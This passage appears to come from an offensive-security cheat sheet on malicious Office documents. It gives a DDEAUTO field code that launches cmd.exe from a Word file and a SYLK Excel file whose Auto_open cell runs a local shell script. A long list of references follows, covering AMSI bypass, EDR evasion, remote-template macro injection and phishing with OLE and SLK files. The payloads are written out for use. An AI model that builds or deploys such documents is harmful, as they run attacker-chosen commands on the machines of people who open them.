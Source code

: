 
## DOCX - DDE

* Insert > QuickPart > Field
* Right Click > Toggle Field Code
* `{ DDEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe" }`

## SLK - Excel

```ps1
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("c:\shell.cmd")
C;X1;Y102;K0;EHALT()
E
```

## References

* [VBA RunPE Part 1 - itm4n](https://itm4n.github.io/vba-runpe-part1/)
* [VBA RunPE Part 2 - itm4n](https://itm4n.github.io/vba-runpe-part2/)
* [Office VBA AMSI Parting the veil on malicious macros - Microsoft](https://www.microsoft.com/security/blog/2018/09/12/office-vba-amsi-parting-the-veil-on-malicious-macros/)
* [Bypassing AMSI fro VBA - Outflank](https://outflank.nl/blog/2019/04/17/bypassing-amsi-for-vba/)
* [Evil Clippy MS Office Maldoc Assistant - Outflank](https://outflank.nl/blog/2019/05/05/evil-clippy-ms-office-maldoc-assistant/)
* [Old schoold evil execl 4.0 macros XLM - Outflank](https://outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/)
* [Excel 4 Macro Generator x86/x64 - bytecod3r](https://bytecod3r.io/excel-4-macro-generator-x86-x64/)
* [VBad - Pepitoh](https://github.com/Pepitoh/VBad)
* [Excel 4.0 Macro Function Reference PDF](https://d13ot9o61jdzpp.cloudfront.net/files/Excel%204.0%20Macro%20Functions%20Reference.pdf)
* [Excel 4.0 Macros so hot right now - SneekyMonkey](https://www.sneakymonkey.net/2020/06/22/excel-4-0-macros-so-hot-right-now/)
* [Macros and more with sharpshooter v2.0 - mdsec](https://www.mdsec.co.uk/2019/02/macros-and-more-with-sharpshooter-v2-0/)
* [Further evasion in the forgotten corners of ms xls - malware.pizza](https://malware.pizza/2020/06/19/further-evasion-in-the-forgotten-corners-of-ms-xls/)
* [Excel 4.0 macro old but new - fsx30](https://medium.com/@fsx30/excel-4-0-macro-old-but-new-967071106be9)
* [XLS 4.0 macros and covenant - d-sec](https://d-sec.net/2020/10/24/xls-4-0-macros-and-covenant/)
* [Inject macro from a remote dotm template - ired.team](https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/inject-macros-from-a-remote-dotm-template-docx-with-macros)
* [Phishinh with OLE - ired.team](https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/phishing-ole-+-lnk)
* [Phishing SLK - ired.team](https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/phishing-.slk-excel)bypassing-malicious-macro-detections-by-defeating-child-parent-process-relationships)
* [PropertyBomb an old new technique for arbitrary code execution in vba macro - Leon Berlin - 22 May 2018](https://www.bitdam.com/2018/05/22/propertybomb-an-old-new-technique-for-arbitrary-code-execution-in-vba-macro/)
* [AMSI in the heap - rmdavy](https://secureyourit.co.uk/wp/2020/04/17/amsi-in-the-heap/)
* [WordAMSIBypass - rmdavy](https://github.com/rmdavy/WordAmsiBypass)
* [Dechaining macros and evading EDR - Noora Hyvärinen](https://blog.f-secure.com/dechaining-macros-and-evading-edr/)
* [Executing macros from docx with remote - RedXORBlueJuly 18, 2018](http://blog.redxorblue.com/2018/07/executing-macros-from-docx-with-remote.html)
* [One thousand and one ways to copy your shellcode to memory (VBA Macros) - X-C3LL - Feb 18, 2021](https://adepts.of0x.cc/alternatives-copy-shellcode/)
* [Running macros via ActiveX controls - greyhathacker - September 29, 2016](http://www.greyhathacker.net/?p=948)